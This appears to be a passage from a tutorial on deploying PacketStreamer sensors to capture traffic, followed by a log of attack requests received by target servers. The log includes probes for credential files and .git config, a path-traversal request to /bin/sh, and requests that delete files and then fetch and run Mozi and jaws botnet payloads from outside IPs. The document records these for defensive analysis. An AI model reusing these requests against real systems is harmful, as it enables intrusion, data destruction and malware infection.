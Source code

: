 Copy the **PacketStreamer** binary and the **sensor-remote.yaml** configuration file to each of the target servers:

```
scp packetstreamer sensor-remote.yaml user@wordpress:/tmp
```

Then run the sensors on the remote machines:

```
ssh root@wordpress

/tmp/packetstreamer sensor --config /tmp/sensor-remote.yaml
```

Repeat for the nginx and honeypot machines.

### **Analyzing the results**

We ran the sensors and receivers for 24 hours, looking for interesting HTTP requests (**tshark -Y http**) to the target servers.  We saw hundreds of drive-by attempts from dozens of different PI addresses, trying to find unprotected secrets, find vulnerable control panel components, use injection to install malware, etc.

Requests ranged from an innocuous-looking ‘GET <https://example.com/>’, to much more significant attempts; a small selection of the captured traffic is listed below (IP addresses obfuscated):

HTTP 295 GET /.env HTTP/1.1

HTTP 307 GET /.aws/credentials HTTP/1.1

HTTP 86 POST /.aws/credentials HTTP/1.1  (application/x-www-form-urlencoded)

HTTP 599 POST /boaform/admin/formLogin HTTP/1.1  (application/x-www-form-urlencoded)

HTTP 335 GET /\_ignition/execute-solution HTTP/1.1

HTTP 292 GET //robots.txt HTTP/1.1

HTTP 306 GET //.well-known/security.txt HTTP/1.1

HTTP 293 GET //sitemap.xml HTTP/1.1

HTTP 176 GET https://example.com/ HTTP/1.1

HTTP 796 GET /Rh-aD.nSuH\_ HTTP/1.1

HTTP 941 GET /yTHlRfsRgMPOmMR2kd4Hc765I/mC/mqqE3ohONMZfZP0WUJFGFSGhlX/j1?KAwuc=ymn5Jdu96Iip\_MOYa9.dTr3U7Yc&wpaCkwFkjcIU=0llrN&E0LYUK=cn.X2DT4AKByeQVWUK-gOED5Vk HTTP/1.1

HTTP 416 POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1  (application/x-www-form-urlencoded)

HTTP 86 POST /assets/images/get.php HTTP/1.1  (application/x-www-form-urlencoded)

HTTP 573 GET /dup-installer/main.installer.php HTTP/1.1

HTTP 296 GET /shell?cd+/tmp;rm+-rf+\*;wget+23.94.50.19/jaws;sh+/tmp/jaws HTTP/1.1

HTTP 302 GET /actuator/gateway/routes HTTP/1.1

HTTP 336 GET /shell?cd+/tmp;rm+-rf+\*;wget+https://13.25.90.45:34416/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1

HTTP 302 GET /.git/config HTTP/1.1

HTTP 86 POST /assets/images/go.php HTTP/1.1  (application/x-www-form-urlencoded)

HTTP 378 GET /vend...
